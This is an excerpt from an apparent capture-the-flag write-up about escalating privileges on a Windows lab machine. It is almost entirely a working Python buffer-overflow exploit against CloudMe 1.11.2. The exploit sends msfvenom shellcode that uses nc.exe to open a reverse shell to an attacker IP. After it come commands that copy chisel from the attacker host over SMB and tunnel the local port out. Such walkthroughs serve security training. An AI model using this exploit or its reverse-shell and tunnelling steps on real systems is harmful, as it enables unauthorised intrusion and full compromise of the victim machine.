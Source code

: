 ```shell
args.add_argument(help="Host IP Address",dest="target",type=str)
args.add_argument(help="CloudMe 1.11.2 port (default 8888)", dest="port", type=int)
args = args.parse_args()

padding1 = b"\x90" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x83\xEC\x10" # sub esp, 0x10

# msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.9 4444 -e cmd' -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xd9\xc3\xd9\x74\x24\xf4\x58\xbb\x88\xaf\x7e\x3b\x2b"
buf += b"\xc9\xb1\x3d\x83\xe8\xfc\x31\x58\x14\x03\x58\x9c\x4d"
buf += b"\x8b\xc7\x74\x13\x74\x38\x84\x74\xfc\xdd\xb5\xb4\x9a"
buf += b"\x96\xe5\x04\xe8\xfb\x09\xee\xbc\xef\x9a\x82\x68\x1f"
buf += b"\x2b\x28\x4f\x2e\xac\x01\xb3\x31\x2e\x58\xe0\x91\x0f"
buf += b"\x93\xf5\xd0\x48\xce\xf4\x81\x01\x84\xab\x35\x26\xd0"
buf += b"\x77\xbd\x74\xf4\xff\x22\xcc\xf7\x2e\xf5\x47\xae\xf0"
buf += b"\xf7\x84\xda\xb8\xef\xc9\xe7\x73\x9b\x39\x93\x85\x4d"
buf += b"\x70\x5c\x29\xb0\xbd\xaf\x33\xf4\x79\x50\x46\x0c\x7a"
buf += b"\xed\x51\xcb\x01\x29\xd7\xc8\xa1\xba\x4f\x35\x50\x6e"
buf += b"\x09\xbe\x5e\xdb\x5d\x98\x42\xda\xb2\x92\x7e\x57\x35"
buf += b"\x75\xf7\x23\x12\x51\x5c\xf7\x3b\xc0\x38\x56\x43\x12"
buf += b"\xe3\x07\xe1\x58\x09\x53\x98\x02\x47\xa2\x2e\x39\x25"
buf += b"\xa4\x30\x42\x19\xcd\x01\xc9\xf6\x8a\x9d\x18\xb3\x65"
buf += b"\xd4\x01\x95\xed\xb1\xd3\xa4\x73\x42\x0e\xea\x8d\xc1"
buf += b"\xbb\x92\x69\xd9\xc9\x97\x36\x5d\x21\xe5\x27\x08\x45"
buf += b"\x5a\x47\x19\x06\x66\xeb\xda\xe8\xfb\x63\x6b\xb7\x6b"
buf += b"\xf0\xef\x28\x08\x8b\xb3\xd1\xb7\x06\x10\x6b\x37\xb5"
buf += b"\xc7\xf2\xd3\x19\x76\x96\x35\xc7\xfe\x3d\x69\x36\xcf"
buf += b"\x93\x58\x08\x01\xdd\xae\x46\x64\x3d\xfa\xa2\xa2\x09"
buf += b"\x22\xe6\xaf\x51\x41\x95\x4b\x92"

overrun = b"C" *(1500 - len(padding1 + NOPS + EIP + buf))

payload = padding1 + EIP + NOPS + buf + overrun

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((args.target,args.port))
    print("[+] Connected to the server")
    s.send(payload)
    print("[+] Payload was sent, check your listening shell :)")
except socket.error as e:
    print("Something went wrong...\nCause: {}".format(str(e)))
```

With this script we can try to trigger a reverse shell as root, exploiting the Buffer Overflow vulnerability on port 8888. But this port is local, so we will need to use `chisel` to forward it:
```powershell
# Uploading chisel to the victim
C:\xampp\htdocs\gym\upload>copy \\10.10.14.9\smbFolder\chisel.exe .\chisel.exe
copy \\10.10.14.9\smbFolder\chisel.exe .\chisel.exe
        1 file(s) copied.
# Executing reverse server
❯ chisel server --reverse -p 6666
2022/06/20 11:38:42 server: Reverse tunnelling enabled
2022/06/20 11:38:42 server: Fingerprint 3wcC9SZm9SOV+E3qxBu/4lxELF32m2QlbYfPOs2o0Mk=
2022/06/20 11:38:42 server: Listening on http://0.0.0.0:6666
# Executing port forwarding
C:\xampp\htdocs\gym\upload>.\chisel client 10.10.14.9:6666 R:8888:127.0.0.1:8888
.\chisel client 10.10.14.9:6666 R:8888:127.0.0.1:8888
2022/06/20 10:39:25 client: Connecting to ws://10.10.14.9:6666
2022/06/20 10:39:25 client: Connected (Latency 41.6874ms)
```